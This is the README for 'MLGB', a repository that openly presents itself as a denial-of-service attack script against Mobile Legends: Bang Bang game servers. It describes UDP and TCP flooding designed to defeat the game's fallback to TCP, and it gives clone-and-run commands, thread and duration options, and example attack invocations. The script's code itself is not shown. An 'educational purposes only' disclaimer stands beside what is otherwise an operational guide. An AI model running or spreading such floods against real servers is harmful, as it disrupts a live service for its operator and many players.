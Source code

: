 <p align="center"><img src="https://i.imgur.com/6WaJAdA.png" width="187px" height="125px"></p>
<h1 align="center">MLGB (Mobile Legends: Gang Bang)</h1>

<h5 align="center">Attack script for MLBB (Mobile Legends: Bang Bang) game servers.</h5>
<em><h6 align="center">This script is provided for educational purposes only. Unauthorized use against servers without explicit permission is illegal and unethical. The authors of this script are not responsible for any misuse.</h6></em>

<p align="center"><img src="https://i.imgur.com/anFgJFI.png"></p>

## Overview
**MLGB** is a Denial of Service (DoS) attack script specifically developed to disrupt the game servers of MLBB. It leverages both UDP and TCP flooding techniques to overwhelm the target server, potentially causing lag, disconnections, or even crashes.

## Why TCP?
While MLBB primarily uses UDP for communication, the game automatically switches to TCP if the UDP connection becomes unstable or fails. This script is designed to exploit that by attacking both protocols, ensuring the server remains overloaded even after protocol switching.

## Get Started
```shell script
git clone https://github.com/AceAkira1017/mlgb.git
cd mlgb
python3 mlgb.py --target <ip:port>
```

## Options
```shell script
--help (-h) # Show help message
--target (-t) # IP:port of the target server
--udp_thread_count (-utc) # Number of UDP attack threads (default: 25)
--tcp_thread_count (-ttc) # Number of TCP attack threads (default: 25)
--udp_duration (-ud) # UDP attack duration in seconds (default: 300)
--tcp_duration (-td) # TCP attack duration in seconds (default: 300)
```

## Example Usage
1. **Basic Attack**: 25 threads for UDP and TCP attacks, 5 minutes duration on a server with IP `192.168.1.100` and port `5000`:
```shell script
python3 mlgb.py -t 192.168.1.100:5000
```
2. **Increased Threads**: 30 threads for UDP attack and 50 threads for TCP attack on the same server:
```shell script
python3 mlgb.py -t 192.168.1.100:5000 -utc 30 -ttc 50
```
3. **Short Attack**: 25 threads for UDP and TCP attacks, each lasting 1 minute:
```shell script
python3 mlgb.py -t 192.168.1.100:5000 -ud 60 -td 60
```
